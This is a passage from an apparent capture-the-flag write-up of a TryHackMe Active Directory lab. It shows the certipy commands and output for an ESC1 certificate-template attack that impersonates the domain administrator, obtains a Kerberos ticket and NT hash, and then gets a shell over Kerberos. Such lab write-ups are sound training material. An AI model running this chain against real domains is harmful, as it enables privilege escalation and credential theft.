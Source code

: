### Attacking ESC1

```bash
certipy req -u SUSANNA_MCKNIGHT@thm.local -p '<REDACTED>' -ca 'thm-LABYRINTH-CA' -template 'ServerAuth' -upn 'administrator@thm.local'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error: The NETBIOS connection with the remote host timed out.
[-] Use -debug to print a stacktrace

certipy req -u SUSANNA_MCKNIGHT@thm.local -p '<REDACTED>' -ca 'thm-LABYRINTH-CA' -template 'ServerAuth' -upn 'administrator@thm.local'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 25
[*] Got certificate with UPN 'administrator@thm.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

certipy auth -pfx ./administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@thm.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@thm.local': aad3b435b51404eeaad3b435b51404ee:<REDACTED>

```

> With `certipy` tool it is pretty normal to receive the first error of `NETBIOS` timeout, I just need to run the command until I don't receive a timeout
{: .prompt-info}

After acquiring the `administrator` hash, I tried to check if I have the privileged access with `nxc`, where I received the error `STATUS_ACCOUNT_RESTRICTION`, telling me that the account has restrictions implemented, my first guess would be that the user is a member of `Protected Users` group, a built-in security group on AD that disables `NTLM` authentication of the users, forcing them to only authenticate via `kerberos`, I can confirm that by looking at the `bloodhound` output

![NON](file-20250514012935730.png)

So, to authenticate, I can only do it via `kerberos`, `nxc` has a parameter `-k` for `kerberos` authentication

![NON](file-20250514012655844.png)

To get a shell, I can invoke the `psexec.py` from `impacket`

![NON](file-20250513220011059.png)

